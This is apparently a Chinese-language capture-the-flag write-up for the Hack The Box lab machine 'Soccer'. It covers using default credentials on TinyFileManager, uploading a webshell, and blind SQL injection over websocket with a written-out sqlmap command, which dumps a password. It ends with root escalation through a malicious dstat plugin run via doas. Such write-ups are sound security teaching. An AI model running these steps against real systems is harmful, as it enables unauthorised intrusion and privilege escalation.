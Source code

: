 nmap 結果
```
PORT     STATE SERVICE         VERSION
22/tcp   open  ssh             OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:0d:84:a3:fd:cc:98:a4:78:fe:f9:49:15:da:e1:6d (RSA)
|   256 df:d6:a3:9f:68:26:9d:fc:7c:6a:0c:29:e9:61:f0:0c (ECDSA)
|_  256 57:97:56:5d:ef:79:3c:2f:cb:db:35:ff:f1:7c:61:5c (ED25519)
80/tcp   open  http            nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://soccer.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
9091/tcp open  xmltec-xmlmail?
| fingerprint-strings: 
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, Help, RPCCheck, SSLSessionReq, drda, informix: 
|     HTTP/1.1 400 Bad Request
|     Connection: close
```

原始碼中看到這個 但這其實只是用來驗證 library 的完整性的
![image](https://hackmd.io/_uploads/SySbjrnGyg.png)

預設的字典檔沒有爆出東西(記得要試不同的)
爆出一個 `/tiny`

連上去跳轉到一個叫 TinyFileManager 的登入頁面 從原始碼中可以找到他的 sourcecode
![image](https://hackmd.io/_uploads/B1XGZI2zye.png)

然後找到他的預設密碼登入

![image](https://hackmd.io/_uploads/S1PXWUnGJe.png)

可以看到裡面就是 soccer.htb 的目錄檔案管理器
裡頭有個 uploads 資料夾 能成功上傳圖片並讀取到 應該就是從這裡上傳 webshell 

![image](https://hackmd.io/_uploads/Syj7f83MJe.png)

成功上傳 webshell
![image](https://hackmd.io/_uploads/HJQWD8hMye.png)

把 reverse shell encode 一下 成功 getshell
想去讀取 user.txt 但沒有權限 想說找 有沒有 sql 或 ssh 的密碼但都沒有發現 翻了超級無敵久去看 writeup 
發現是要去找他的 subdomain 可以在 `/etc/nginx/sites-available` 找到 `soc-player.soccer.htb` 或是從 `/etc/hosts` 看也可以

![image](https://hackmd.io/_uploads/SkIV7vnfJl.png)

加進 `/etc/host` 後成功進來

![image](https://hackmd.io/_uploads/BJf9mDnfyx.png)

先目錄爆破 
```
Login                   [Status: 200, Size: 3307, Words: 778, Lines: 99, Duration: 313ms]
check                   [Status: 200, Size: 31, Words: 6, Lines: 1, Duration: 272ms]
css                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 271ms]
img                     [Status: 301, Size: 173, Words: 7, Lines: 11, Duration: 388ms]
js                      [Status: 301, Size: 171, Words: 7, Lines: 11, Duration: 268ms]
login                   [Status: 200, Size: 3307, Words: 778, Lines: 99, Duration: 276ms]
logout                  [Status: 302, Size: 23, Words: 4, Lines: 1, Duration: 276ms]
match                   [Status: 200, Size: 10078, Words: 4012, Lines: 404, Duration: 279ms]
signup                  [Status: 200, Size: 3741, Words: 1015, Lines: 105, Duration: 278ms]
```

`http://soc-player.soccer.htb/check` 發現有 SQLi 漏洞
![image](https://hackmd.io/_uploads/H185ownMyl.png)
![image](https://hackmd.io/_uploads/rJyYowhMyg.png)

加上看原始碼有使用到 websocket
![image](https://hackmd.io/_uploads/r1230v2zJx.png)

可以參考這篇 [SQLi+WebScoket](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

用他的 payload 可以爆出來
但好像用這個就可以了
```
sqlmap -u ‘ws://soc-player.soccer.htb:9091’ –data ‘{“id”:”*”}’ --technique=B –risk 3 –level 5 –batch –dbs
```

sqlmap 參數可以加上 `--exclude-sysdbs` 不要列出預設的表 不然 time-based 跑很久

透過出來的資料去 ssh 連線
```
Database: soccer_db
Table: accounts
[1 entry]
+------+-------------------+----------------------+----------+
| id   | email             | password             | username |
+------+-------------------+----------------------+----------+
| 1324 | player@player.htb | PlayerOftheMatch2022 | player   |
+------+-------------------+----------------------+----------+
```

上傳 linpeas 沒找到東西 用 `find / -perm -4000 2>/dev/null` 看有哪些可以是有 user 權限且可以用 root 身份執行 

可以發現有一個叫做 doas 的

![image](https://hackmd.io/_uploads/SJTYj8aMke.png)

他是一種類似 sudo 的東東

![image](https://hackmd.io/_uploads/Bk2jpLaMkl.png)

從 `man doas` 可以看到有一個 config file 可以進行讀取

![image](https://hackmd.io/_uploads/By7TWvaf1e.png)

讀取後得知在 `/usr/bin/dstat` 下的 command 可以以 root 身份執行![image](https://hackmd.io/_uploads/Bk5MMw6Mye.png)

再去查 dstat 是一個用於監控系統資源的東東 在 `man dstat` 可以知道 使用 `--list` 可以列出所有可用插鍵 也可參考[這個](https://gtfobins.github.io/gtfobins/dstat/)

並且都存在 `usr/local/share/dstat` 然後檔名必須為 `dstat_filename.py` 執行時 --後面的 file name
![image](https://hackmd.io/_uploads/SyKDIwafJe.png)

因此可以建一個 shell 在 dstat 然後利用 doas 以 root 身份執行這件事成功提權
```
import os
os.system("/bin/bash")
```

`doas /usr/bin/dstat --good` 成功提權

![image](https://hackmd.io/_uploads/SJcVYvaz1e.png)

